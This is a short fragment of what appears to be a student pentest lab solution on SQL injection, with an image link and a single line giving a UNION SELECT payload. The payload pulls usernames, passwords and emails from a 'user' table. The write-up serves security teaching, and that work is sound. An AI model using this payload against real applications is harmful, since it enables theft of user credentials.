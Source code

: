 <img src="https://github.com/pentest-khoa-02/Group1/blob/solution/solution/SQL%20Injection/images/8.png" width="666px">
</p>

**The payload is `minh' UNION SELECT username||';'||password||';'||email,'2','3','4','5' FROM "user"--`**